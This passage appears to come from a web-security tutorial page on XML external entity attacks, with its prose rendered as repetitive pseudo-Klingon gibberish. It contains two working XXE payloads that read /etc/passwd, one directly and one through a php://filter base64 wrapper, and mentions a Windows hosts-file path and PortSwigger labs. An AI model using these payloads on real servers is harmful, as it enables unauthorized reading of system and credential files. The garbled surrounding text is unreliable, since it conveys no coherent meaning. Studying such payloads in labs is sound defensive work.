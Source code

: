 ![](<../.gitbook/assets/image (220).png>)

### QaStaHvIS

_/etc/passwd_ vItlhutlh `/etc/passwd` vItlhutlh. Windows Daq vItlhutlh: `C:\windows\system32\drivers\etc\hosts`

vItlhutlhDaq vItlhutlhDaq, SYSTEM "_\*\*file:///\*\*etc/passwd_" vItlhutlh.
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<data>&example;</data>
```
![](<../.gitbook/assets/image (221).png>)

**vItlhutlh:** QaStaHvIS web server PHP lo'laHbe'chugh, 'ej vItlhutlh Portswiggers labs'e' lo'laHbe'.
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
<data>&example;</data>
```
### QaStaHvIS
